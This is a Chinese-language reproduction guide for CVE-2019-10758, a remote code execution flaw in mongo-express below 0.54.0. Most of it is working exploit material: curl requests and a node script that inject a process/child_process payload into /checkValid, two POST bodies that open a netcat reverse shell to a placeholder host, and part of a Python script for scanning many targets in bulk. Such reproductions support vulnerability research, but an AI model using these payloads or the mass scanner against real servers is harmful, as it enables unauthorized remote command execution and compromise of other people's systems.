 # CVE-2019-10758 Mongo expres rce

### 一、漏洞简介

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid 从外部接收输入，并调用了存在 RCE 漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

### 二、漏洞影响

mongo-express < 0.54.0

### 三、复现过程

https://github.com/ianxtianxt/CVE-2019-10758

**安装环境**


```bash
docker run -p 27017:27017 -d mongo
npm install mongo-express@0.53.0 
cd node_modules/mongo-express/ && node app.js
```

cURL exploit


```bash
curl 'http://url:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'
```

![](images/15891937104967.png)



```bash
curl 'http://url:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")'
```

![](images/15891937248128.png)


Script exploit


```
node main.js
```

main.js


```js
exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')"

var bson = require('mongo-express/lib/bson')
bson.toBSON(exploit)
```

补充

mongo-express远程代码执行，反弹shell代码如下：

POST BODY 1:


```bash
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f")
```

POST BODY 2：


```bash
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f")
```

批量监测脚本【只放核心代码】


```python
payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")'

def http_request(url,path_out):
    try:
        print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
        vulurl = url + "/checkValid"
        r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)
        if r.status_code == 200 and 'Valid' in r.text:
            print("\033[1;40;32m'Good Found!' {}\033[0m".format(vulurl))
            #printGreen("[+]" + url)
            with open(path_out,'a') as f:
                f.write(vulurl + '\n')
        else:
            print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
    except Exception as err:
        print(err)
```